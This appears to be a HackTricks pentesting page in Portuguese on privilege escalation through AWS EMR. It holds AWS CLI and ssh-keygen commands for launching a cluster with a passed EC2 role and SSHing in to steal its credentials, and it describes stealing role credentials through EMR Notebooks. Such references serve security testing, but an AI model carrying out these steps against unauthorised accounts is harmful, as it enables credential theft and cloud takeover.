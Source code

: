# AWS - EMR Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## EMR

Mais **informações sobre EMR** em:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Um invasor com essas permissões pode **executar um novo cluster EMR anexando funções EC2** e tentar roubar suas credenciais.\
Observe que, para fazer isso, você precisaria **conhecer alguma chave privada ssh importada na conta** ou importar uma e ser capaz de **abrir a porta 22 no nó mestre** (você pode fazer isso com os atributos `EmrManagedMasterSecurityGroup` e/ou `ServiceAccessSecurityGroup` dentro de `--ec2-attributes`).

```bash
# Importe a chave ssh do EC2 (você precisará de permissões extras para isso)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
    --key-name "privesc" \
    --public-key-material file:///tmp/pub.key


aws emr create-cluster \
    --release-label emr-5.15.0 \
    --instance-type m4.large \
    --instance-count 1 \
    --service-role EMR_DefaultRole \
    --ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Aguarde 1 minuto e conecte-se via ssh a uma instância EC2 do cluster)
aws emr describe-cluster --cluster-id <id>
# Em MasterPublicDnsName, você pode encontrar o DNS para se conectar à instância mestre
## Você também pode obter essas informações listando as instâncias EC2
```

Observe como um **papel EMR** é especificado em `--service-role` e um **papel ec2** é especificado em `--ec2-attributes` dentro de `InstanceProfile`. No entanto, essa técnica permite apenas roubar as credenciais do papel EC2 (como você se conectará via ssh), mas não o papel IAM EMR.

**Impacto potencial:** Privesc para o papel de serviço EC2 especificado.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Com essas permissões, um invasor pode ir para o **console da AWS**, criar um Notebook e acessá-lo para roubar o papel IAM.

{% hint style="danger" %}
Mesmo que você anexe um papel IAM à instância do notebook, em meus testes, notei que consegui roubar credenciais gerenciadas pela AWS e não credenciais relacionadas ao papel IAM relacionado.
{% endhint %}

**Impacto potencial:** Privesc para o papel gerenciado pela AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Apenas com essa permissão, um invasor poderá acessar o **Jupyter Notebook e roubar o papel IAM** associado a ele.\
A URL do notebook é `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Mesmo que você anexe um papel IAM à instância do notebook, em meus testes, notei que consegui roubar credenciais gerenciadas pela AWS e não credenciais relacionadas ao papel IAM relacionado.
{% endhint %}

**Impacto potencial:** Privesc para o papel gerenciado pela AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>